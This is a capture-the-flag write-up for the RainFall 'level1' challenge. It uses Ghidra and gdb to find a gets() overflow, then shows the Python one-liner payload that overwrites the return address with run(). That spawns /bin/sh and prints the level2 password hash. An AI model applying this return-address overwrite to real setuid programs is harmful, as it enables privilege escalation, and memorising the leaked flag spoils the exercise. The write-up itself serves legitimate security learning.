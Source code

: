 # level1

For the level1 we have a script called level1 made by level2. After analyzing it in ghidra we can see that the main is extremely basic:

```c
void main(void)
{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

We also can see in the man of gets that this is a function that shouldn't be used at all coast because of it's overflow vulnerabily which sounds delightful for us.

We also can see that local_50 is a buffer of 76 character and indeed when executing level1, if we enter 76 or more characters, we get a segfault. (At 76 characters precisely we get an Illegal instruction to be precise).

After some reaserches on Buffer Overflow exploits we get to learn how to use gdb, a debugger program apparently that allows us to have a ton of details on the program.

Some commands for gdb launched with gdb ./level1:

```
r                   => run the program (run works too)
b main              => set a breakpoint when entering main (can also be an hexadecimal address to stop at a specific line)
disas main          => disassemble a specific functions in order to obtains more infos such as addresses
ni                  => next instruction to go 1 by 1, line by line through the code
info registers      => show all values of registers variables
x/100xb $esp        => show the 100 first spaces of the stack (esp)
p main              => get the address of the main function
```

After checking a little more the code on ghidra, we also found a function called run(), that is not used anywhere:

```c
void run(void)
{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This seems very convenient, so we have to call this function somehow.
After some researches we understood that in the stack the code will be executed in some ways that after the buffer, will be the address of the return function. (where the function has to return to come back to main), if we replaced the address of the return function by the address of run() function, then instead of coming back to main, run would be called and the shell would be executed woth level2 rights.

```sh
(gdb) p run
$2 = {<text variable, no debug info>} 0x8048444 <run>
```

We now have the address of run, so we tried to inject in a file 'A' char 76 times and then the address of run function in hexadecimal so:

```sh
echo $(python -c "print('\x90'*76+'\x44\x84\x04\x08')") > /tmp/payload
```

The address has to be written upside down in order to be understood as a pointer address.
Executing it in gdb we get this:

```sh
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload
Good... Wait what?

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

So the line is printed, but no shell opened. We tried different things to end up with:

```sh
level1@RainFall:~$ cat /tmp/payload -| ./level1
Good... Wait what?
> 
```

The - at the end of the cat is to leave stin open, so the shell can be opened.

```sh
level1@RainFall:~$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
